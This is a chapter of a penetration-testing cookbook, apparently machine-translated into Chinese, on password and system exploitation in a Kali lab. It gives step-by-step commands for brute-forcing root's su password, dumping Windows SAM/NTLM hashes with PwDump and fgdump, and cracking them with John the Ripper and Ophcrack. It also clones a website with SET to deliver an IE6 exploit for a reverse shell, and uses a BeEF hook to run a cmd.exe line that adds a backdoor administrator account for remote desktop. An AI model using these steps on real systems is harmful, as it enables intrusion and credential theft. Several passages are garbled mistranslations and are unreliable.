# 第 8 章系统和密码利用

在本章中，我们将介绍以下配方：

*   使用本地密码攻击工具
*   破解密码散列
*   使用社会工程师工具包
*   使用 BeEF 进行浏览器开发
*   使用 rainbow 表破解 NTLM 哈希

# 导言

在本章中，我们将重点关注获取散列，然后破解它们以获得访问权限。这些信息可以被广泛使用，因为在同一网络中，很可能会有其他系统使用相同的密码。让我们继续看看如何实现这一目标。

# 使用本地密码攻击工具

在此配方中，我们将看到一些适用于 Windows 和 Linux 的工具，它们将执行密码猜测攻击。对于 Linux，我们将使用名为**sucrack**的工具，对于 Windows，我们将使用**fgdump**和**pwdump**。Sucrack 用于通过`su`命令破解密码，这是一个多线程工具。SU 是 Linux 中的一个工具，允许您使用替代用户运行命令。但首先让我们了解这些工具：Sucrack 是一个密码破解工具。Fgdump 和 pwdump 是从 LSASS 内存转储 SAM 哈希的工具。**JTR**（**开膛手约翰**）是山姆·哈什的黑客。**Windows 凭据编辑器**（**WCE**）是一个安全工具，用于列出登录会话以及添加、更改、列出和删除相关凭据（例如，LM/NT 哈希、明文密码和 Kerberos 票证）。让我们从实际做法开始。

## 准备好了吗

为了演示这一点，我们需要一台 Windows XP 机器和我们的 Kali Linux 发行版。读者可能还需要将`PwDump.exe`和`FgDump.exe`从 Kali Linux 移植到 Windows XP。

## 怎么做。。。

1.  For demo purposes, we have changed the password to `987654321`. Enter the following command to commence the sucrack attack:

    ```
          sucrack -a -w 10 -s 3 -u root /usr/share/wordlists/rockyou.txt

    ```

    输出将如以下屏幕截图所示：

    

    一旦攻击完成并且密码与字典中的密码匹配，我们将得到以下结果：

    

2.  类似地，我们可以通过在`-u`参数中输入他/她的用户名来为任何用户执行相同的操作。
3.  Let us see how the same can be done on Windows machines. The binaries for `wce.exe`, `PwDump.exe` and `FgDump.exe` can be found in Kali Linux at the `/usr/share/windows-binaries/` path. Import the same to the Windows machine to continue.

    现在我们有了工具，请确保终端指向文件所在的文件夹。

4.  Enter the following command in the terminal:

    ```
          PWDump.exe -o test 127.0.0.1

    ```

    输出将如以下屏幕截图所示：

    

5.  Now open the test file created, with a notepad, in the same folder where the `PWDump.exe` command was executed:

    

    这表明`PwDump.exe`提取了所有密码，并以 NTLM 哈希状态显示；NTLM decrypt 网站上也可以使用同样的方法，在这些网站上存储了大量带有明文密码的散列。这些网站存储了一个巨大的破解哈希数据库，将其与原始字符串进行比较。需要记住的一点是，NTLM 哈希是单向哈希，不能被解密回来；获取实际密码的唯一方法是，如果一个人有这个单词及其相应的散列。一个著名的网站是[https://hashkiller.co.uk](https://hashkiller.co.uk) 。它有大约 3120.72 亿个唯一解密的 NTLM 哈希。

6.  Now let us look at fgdump and its workings. Before we continue, we need to know that fgdump is the newer version of pwdump; it has an added functionality of displaying password histories if they are available. Enter the following command in the command prompt:

    ```
          fgdump.exe

    ```

    输出将如以下屏幕截图所示：

    

    这将创建三个文件：两个 pwdump 文件和一个缓存转储文件：

    

7.  打开 pwdump 文件时，我们得到的 NTLM 哈希值与我们在之前运行的工具中得到的相同；同样可以在 NTLM 破解网站上输入，以实现明文密码。

## 它是如何工作的。。。

我们使用了一些参数。让我们了解它是如何工作的：

```
sucrack -a -w 10 -s 3 -u root /usr/share/wordlists/rockyou.txt

```

*   `-a`：这使用 ANSI 转义码进行漂亮的统计
*   `-w`：显示要运行的工作线程数
*   `-s`：以秒为单位显示统计显示间隔
*   `-u`：显示要`su`的用户账号

```
Pwdump.exe -o test 127.0.0.1

```

让我们了解一下`Pwdump.exe`使用的参数：

*   `-o`：用于写入文件
*   `127.0.0.1`：输入受损机器的 IP 地址

## 还有更多。。。

在 sucrack、pwdump 和 fgdump 中有更多选项可供探索。只需在相应的窗口和终端中发出命令`sucrack`、`Pwdump -h`和`fgdump -h`，即可获得所有可用选项。

# 破解密码散列

在这个配方中，我们将看到如何破解明文密码的哈希。我们将使用开膛手约翰。John the Ripper（JTR）是一款快速密码破解软件，目前可用于多种风格的 Unix、Windows、DOS 和 OpenVMS。它的主要目的是检测弱 Unix 密码。除了在各种 Unix 系统上最常见的几种 crypt（3）密码散列类型外，开箱即用的支持 Windows LM 散列，以及社区增强版中的许多其他散列和密码。

## 准备好了吗

我们将要求将在 Windows 机器上获得的哈希值移植到我们的 Kali 机器，然后我们可以开始比较哈希值。

## 怎么做。。。

1.  让我们从破解密码最有效的工具之一 JTR 开始。对于给定的示例，我们采用了之前收到的哈希转储。为便于阅读，该文件已重命名为`crackme`。
2.  Enter the following command in the terminal:

    ```
    john crackme

    ```

    输出将如以下屏幕截图所示：

    

    我们可以看到，密码是以明文形式检索的；例如，`dhruv: 1`和`dhruv: 2`组成一个完整的密码`Administrator`；其他人也是如此。由于 NTLM 散列机制，密码被这样分割。整个散列实际上被分成一个 8:8 的段，如果密码大于 8 个字符，则另一段也用于散列密码。

    裂土器 John 支持破解不同类型的散列，NTLM 就是其中之一。

## 它是如何工作的。。。

在前面的配方中，我们使用了以下命令：

*   `|john crackme`：其中`crackme`是包含哈希的密码文件

开膛手约翰是一个聪明的工具；它检测使用的加密类型并自动执行破解阶段。

## 还有更多。。。

通过使用`man john`或`john --help`命令，可以找到有关裂土器 John 的更多信息：


# 使用社会工程工具包

**社会工程工具包**（**集合**）顾名思义，专注于挖掘人类好奇心的本质。该集由 David Kennedy（ReL1K）撰写，在社区的大量帮助下，它包含了攻击。在此配方中，我们将了解恶意可执行文件是如何创建的，以及攻击者是如何等待受害者执行该文件的。我们还将研究攻击者如何通过诱使受害者访问恶意网站来欺骗用户获得反向外壳。

## 准备好了吗

对于这个配方，我们将使用 Windows 操作系统、Internet Explorer 6 和 Kali Linux 机器；`Setoolkit`默认安装为 Kali 的一部分。

## 怎么做。。。

1.  Start Social-Engineering Toolkit using the following command:

    ```
    Setoolkit

    ```

    输出将如以下屏幕截图所示：

    

    在本次活动中，我们将了解如何使用`Social-Engineering Attacks`托管一个虚假网站，并利用用户的 IE（如果易受攻击）获取其帐户的反向外壳。我们将使用`Social-Engineering Attacks`，这是选项 1：

    

2.  We will now select the website attack vector, that is, 2, which then looks as follows:

    

3.  Now we will select the `Metasploit Browser Exploit Method` option 2:

    

4.  After that, we will clone the site and fill up the necessary information:

    ```
          set:webattack>2
          [-] NAT/Port Forwarding can be used in the cases where your SET       machine is
          [-] not externally exposed and may be a different IP address       than your reverse listener.
          set> Are you using NAT/Port Forwarding [yes|no]: yes
          set:webattack> IP address to SET web server (this could be your        external IP or hostname):192.168.157.157
          set:webattack> Is your payload handler (metasploit) on a       different IP from your external NAT/Port FWD address [yes|no]:no
          [-] SET supports both HTTP and HTTPS
          [-] Example: http://www.thisisafakesite.com
          set:webattack> Enter the url to clone:http://security-geek.in

    ```

    相同的屏幕截图如下所示：

    

5.  We will select the `Internet explorer 6 vulnerability of Aurora memory corruption (2010-01-14)`, option number 37, and select the Metasploit **Windows Shell Reverse_TCP**, option 1, and specify any desired port, preferably above 1,000, as the ones below 1,000 are registered for operating systems. The output will be as shown in the following screenshot:

    

    一旦恶意网站的设置完成，其外观如下所示：

    

6.  Now that our configuration at the attacker end is complete, all we have to do is call the victim on the malicious website. For this exercise, our victim is a Windows Machine with IE version 6:

    

    执行恶意脚本，如果所有条件（如 Internet Explorer 浏览器、浏览器的易受攻击版本和无防病毒检测）都匹配，我们将获得一个反向外壳作为有效负载，如前所述：

    

    在检查以确保它是同一个系统时，让我们运行 ipconfig：

    

## 它是如何工作的。。。

正如你所看到的，整个练习是不言自明的；我们创建或托管一个假网站是为了窃取信息或远程访问系统。在公司环境中，这一点应格外小心。没有执行特殊命令；流程如下。

## 还有更多。。。

让我们假设攻击者想攻击服务器，但是只有三到四个人可以访问防火墙上的服务器。攻击者可能会进行社会工程，迫使四个用户中的一个访问该网站，并可能幸运地获得一个外壳。一旦完成，攻击者将能够通过受损机器将其攻击路由到目标服务器。

社会工程工具包不仅限制您使用基于浏览器的攻击，它甚至包含钓鱼、群发邮件、基于 Arduino 的攻击、无线攻击等模块。由于本章仅限于利用，我们采用了一个方法来了解如何通过 SET 实现利用。

# 使用 BeEF 进行浏览器开发

**BeEF**代表**浏览器开发框架**。它是一个笔测试工具，主要关注浏览器和相关开发。如今，由移动客户端、web 客户端等组成的客户端浏览器面临越来越多的威胁。BeEF 允许我们使用客户端攻击向量（如创建用户、执行恶意脚本等）对目标进行笔试。BeEF 主要关注基于 web 客户端的开发，例如浏览器级别。

## 准备好了吗

BeEF XSS 已经是 Kali Linux 的一部分。在本练习中，我们将使用带有 Firefox 浏览器的 Windows 计算机。我们将通过 Firefox 浏览器连接客户端。访问钩子时，执行 JavaScript 并部署钩子。如果在运行 BeEF XSS 框架时出现任何问题，请参阅[中的指南 https://github.com/beefproject/beef/wiki/Installation](https://github.com/beefproject/beef/wiki/Installation) 。

## 怎么做。。。

1.  Initiate the BeEF framework by entering the following in the terminal:

    ```
          cd /usr/share/beef
          ./beef

    ```

    输出将如以下屏幕截图所示：

    

2.  Now open the Firefox browser in Kali and visit the UI panel, as stated in the output. Enter the username password as `beef:beef`:

    

3.  To hook a browser, we will have to make it load the hook URL of BeEF; we will do the same with our Windows machine. We make the browser visit the hook URL of our BeEF framework:

    

4.  As we can see, the framework has detected a hook and attached itself to it, and we can now browse the different capabilities provided by the BeEF to attack the user using the browser. Note: It is also possible to create a persistent hook by force-loading a hidden pop-up window from the exploit modules available so that when the user browses away from the hook-injected page, the attacker still has the session:

    

    我们现在已经成功地将客户机连接到 BeEF 框架。通常，该钩子是一个 XSS 向量，并作为 iframe 粘贴在用户将访问的任何应用程序上，然后作为攻击者继续攻击该用户。

5.  Let us make a pop-up box over the client to see its workings. The reader should click on the IP of the browser that is hooked and go to the commands tab. Under the hooked domain, there is an option to **Create Alert Dialogue**. Click it, set your parameters straight, and click on **Execute**. Check to see if the hooked browser got an alert prompt or not:

    

    执行脚本后，受害者浏览器将显示一个警报对话框，如以下屏幕截图所示：

    

6.  所以是的，它起作用了。现在，命令部分提供了各种模块。它们被彩色的球分开，绿色、橙色、红色和灰色。绿色表示命令模块针对目标工作，用户不可见；橙色，命令模块针对目标工作，但用户可以看到；灰色，指挥模块尚未根据该目标进行验证；红色，则命令模块无法针对该目标工作。
7.  Considering that the hooked browser is being operated by an admin for this activity, we are going to use the hook to create a user with remote-desktop capability. In our environment, we have Internet Explorer running on Windows XP with ActiveX enabled. To perform this activity, select the hook of the machine, then go to **Commands** | **Module Tree** | **Exploits** | **Local Host** | **ActiveX Command Execution**.

    在**ActiveX 命令执行**中，将命令设置如下：

    ```
          cmd.exe /c "net user beefed beef@123 /add &  net localgroup        Administrators beefed /add & net localgroup "Remote desktop       users" beefed /add & pause"

    ```

    在以下屏幕截图中可以看到设置相同的选项：

    

8.  We will now proceed to attempt a remote desktop connection to the remote system, using the `rdesktop` command in Kali. Enter the username, password, and IP to connect to the machine:

    ```
          rdesktop -u beefed -p "beef@123" 192.168.157.155

    ```

    输出将如以下屏幕截图所示：

    

    我们成功地通过客户端浏览器访问了系统。

## 它是如何工作的。。。

BeEF 使用 JavaScript hook.js，当浏览器访问它时，它将控制 BeEF 框架。有了钩子，就可以使用命令模块中提供的各种功能。它们的功能范围各不相同，从枚举到系统攻击，从 cookie 窃取到会话窃取，从中间人攻击，等等。攻击者得到钩子最简单的方法是通过 XSS 攻击向量，使它们加载 iFrAMEs 并附加钩子。钩子可以持久化，即使它们从受感染的网站上浏览。这一部分可以做为读者的家庭作业。前面的练习是不言自明的：没有需要更多解释的额外命令。

## 还有更多。。。

当涉及到客户端笔测试时，BeEF 是一个很棒的笔测试工具。在大多数情况下，我们证明 XSS 是可能的。这是下一步，它展示了如何通过一个简单的 XSS 和 JavaScript 来创建远程系统的根并从浏览器中窃取。更多信息可以在 BeEF framework wiki 上找到。

# 使用 rainbow 表破解 NTLM 哈希

对于本次活动，我们将使用**Ophrack**以及一个小彩虹表。Ophcrack 是一个基于彩虹表的免费 Windows 密码破解程序。这是该方法的发明者对彩虹表的一种非常有效的实现。它带有一个**图形用户界面**（**GUI**），并在多个平台上运行。默认情况下，它在 Kali Linux 发行版中可用。本食谱将重点介绍在 rainbow 表的帮助下，使用 Ophcrack 破解密码。

## 准备好了吗

对于这个配方，我们将破解一个 Windows XP 密码。彩虹表`db`可从[下载 http://ophcrack.sourceforge.net/tables.php](http://ophcrack.sourceforge.net/tables.php) 。Ophrack 工具在我们的 Kali Linux 发行版中可用。

## 怎么做。。。

1.  First, download the `tables_xp_free_fast` file from Ophcrack sourceforge tables and put it in your Kali machine. Unzip it using the following command:

    ```
    Unzip tables_xp_free_fast.zip

    ```

    输出将如以下屏幕截图所示：

    

2.  We already have the hash we will use from our compromised XP machine. Now, to run the Ophcrack with the preceding rainbow table, use the following command:

    ```
    Ophcrack

    ```

    现在将加载一个类似以下屏幕截图的 GUI。使用任何散列转储方法加载检索到的密码散列。在这种情况下，pwdump：

    

3.  Once the password hashes are loaded, the screen will look as follows:

    

4.  Click on **Tables**, select the **XP free fast** table, click on **Install**, and browse to the path where we downloaded the rainbow-table file from ophcrack:

    

5.  Now we click on a crack option available in the GUI and the cracking will begin:

    

    正如我们所看到的，在彩虹表的帮助下，我们已经成功地使用 Ophcrack 找到了一个常用的密码。

## 它是如何工作的。。。

该工具几乎是不言自明的，工作完美，没有任何问题。它使用我们找到的散列的 NT/LM，并将它们与提供的 rainbow 表匹配。当散列匹配时，rainbow 表查找导致散列的相应名称，我们最终以明文形式获得值。

## 还有更多。。。

在这里，我们演示了如何使用最小的彩虹表。彩虹表的大小可以从 300 MB 到 3 TB 不等；此外，一个额外的表可以导致彩虹表的巨大规模的帐户。这可以在他们以前共享的 sourceforge 链接上检出。